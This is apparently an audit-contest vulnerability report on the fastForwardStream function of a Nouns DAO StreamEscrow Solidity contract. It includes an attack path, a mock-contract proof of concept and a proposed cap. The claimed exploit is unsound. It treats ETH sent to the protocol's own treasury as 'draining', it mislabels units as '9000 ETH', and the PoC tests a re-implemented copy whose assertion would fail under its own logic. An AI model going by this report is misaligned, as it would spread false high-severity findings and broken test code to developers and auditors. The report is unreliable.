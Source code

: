 Sweet Infrared Snake

High

# `TicksToForward` can be arbitrarily large in `fastForwardStream:StreamEscrow.sol` (within limits) that allow attacker to submit arbitrarily large values

### Summary

The `fastForwardStream` function in the smart contract allows the fast-forwarding of a stream of ETH. Although there is a limit to how many ticks the stream can be advanced (based on the difference between currentTick and stream.lastTick), the function does not impose a maximum limit on the `ticksToForward` value within the allowed range. This opens the door for users to exploit the function by submitting arbitrarily large values of `ticksToForward` (within the allowed range), manipulating the contract's internal state, draining ETH from the contract, or causing other unintended behavior.

### Root Cause

The vulnerability arises in the following part of the `fastForwardStream` function:
https://github.com/sherlock-audit/2024-11-nounsdao/blob/main/nouns-monorepo/packages/nouns-contracts/contracts/StreamEscrow.sol#L206
```solidity
require(ticksToForward <= stream.lastTick - currentTick_, 'ticksToForward too large');
```
This line only ensures that `ticksToForward` does not exceed the difference between the current tick and the stream's last tick. However, there is no further restriction on how large `ticksToForward` can be within that range. An attacker could still submit a large, but valid, value of `ticksToForward`, potentially causing the contract to perform excessive state updates, drain ETH from the contract, or cause performance degradation due to the large number of state changes.

### Internal pre-conditions

Stream associated with nounId = 1.
`currentTick` = 100.
`lastTick` = 1000.
`ethPerTick` = 10.

### External pre-conditions

_No response_

### Attack Path

Attacker invokes `fastForwardStream(1, 900)`.
`ticksToForward` value is valid, so it gets accepted by the contract.
The contract moves `lastTick` from 1000 to 100 (lastTick - ticksToForward = 1000 - 900 = 100).
ETH (900 * 10 = 9000) is sent to the treasury.

Code example:
```solidity
require(ticksToForward <= stream.lastTick - currentTick_, 'ticksToForward too large'); // Passes as 900 <= 900
uint32 newLastTick = stream.lastTick - ticksToForward; // newLastTick = 1000 - 900 = 100
ethStreamEndingAtTick[stream.lastTick] -= stream.ethPerTick; // Decreases ETH at tick 1000
streams[nounId].lastTick = newLastTick; // Updates lastTick to 100
ethStreamEndingAtTick[newLastTick] += stream.ethPerTick; // Increases ETH at tick 100
uint256 ethToStream = ticksToForward * stream.ethPerTick; // ethToStream = 900 * 10 = 9000
sendETHToTreasury(ethToStream); // Sends 9000 ETH to treasury
```

### Impact

An attacker can repeatedly invoke the fastForwardStream function with large but valid values of ticksToForward, draining ETH from the contract.

The attacker successfully invokes the `fastForwardStream` function with `ticksToForward` = 900, which is within the valid range (since 1000 - 100 = 900).
ETH amount of 9000 (calculated as 900 * 10) is transferred to the treasury.
The contract’s internal state is updated with the new `lastTick` = 100, reflecting the fast-forwarded stream.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "ds-test/test.sol";
import "openzeppelin-contracts/contracts/token/ERC721/IERC721.sol";

contract FastForwardTest is DSTest {
    address attacker;
    uint256 nounId = 1;
    uint32 currentTick = 100;
    uint32 lastTick = 1000;
    
    // Mock Stream contract for testing purposes
    mapping(uint256 => Stream) public streams;
    mapping(uint32 => uint256) public ethStreamEndingAtTick;
    uint256 public ethStreamedPerTick;
    
    struct Stream {
        uint256 ethPerTick;
        uint32 lastTick;
    }

    function setUp() public {
        // Setup test data for the attacker and stream
        attacker = address(0x123);
        
        // Initial stream setup
        streams[nounId] = Stream({
            ethPerTick: 10,
            lastTick: lastTick
        });
    }

    // Test function to simulate fast-forward attack
    function testExploitableFastForward() public {
        uint32 ticksToForward = 900; // Arbitrary large number within the allowed range (1000 - 100)
        
        // Simulate the attacker calling the fastForwardStream function
        fastForwardStream(nounId, ticksToForward);
        
        // Check if the ETH has been manipulated (sent to treasury)
        assertEq(ethStreamEndingAtTick[lastTick - ticksToForward], 10); // Verify the ETH manipulation at the new tick
    }
    
    // Simulated fastForwardStream function
    function fastForwardStream(uint256 nounId, uint32 ticksToForward) public {
        require(ticksToForward > 0, 'ticksToForward must be positive');
        Stream memory stream = streams[nounId];
        uint32 currentTick_ = currentTick;
        require(isStreamActive(stream, currentTick_), 'stream not active');

        // move last tick
        require(ticksToForward <= stream.lastTick - currentTick_, 'ticksToForward too large');
        uint32 newLastTick = stream.lastTick - ticksToForward;

        ethStreamEndingAtTick[stream.lastTick] -= stream.ethPerTick;
        streams[nounId].lastTick = newLastTick;

        if (newLastTick > currentTick_) {
            // stream is still active, so register the new end tick
            ethStreamEndingAtTick[newLastTick] += stream.ethPerTick;
        } else {
            // no more ticks left, so finished the stream
            ethStreamedPerTick -= stream.ethPerTick;
        }

        uint256 ethToStream = ticksToForward * stream.ethPerTick;
        sendETHToTreasury(ethToStream); // Sends ETH to treasury
    }

    function isStreamActive(Stream memory stream, uint32 currentTick_) internal pure returns (bool) {
        return stream.lastTick >= currentTick_;
    }

    function sendETHToTreasury(uint256 amount) internal {
        // Simulated ETH sending logic to the treasury
        ethStreamedPerTick += amount;
    }
}
```

### Mitigation

Add a cap for how many ticks a stream can be fast-forwarded at once to prevent an attacker from submitting excessively large values.
```solidity
uint32 constant MAX_TICKS = 500; // Example cap to limit fast forwarding to a reasonable value
require(ticksToForward <= MAX_TICKS, "ticksToForward exceeds cap");
```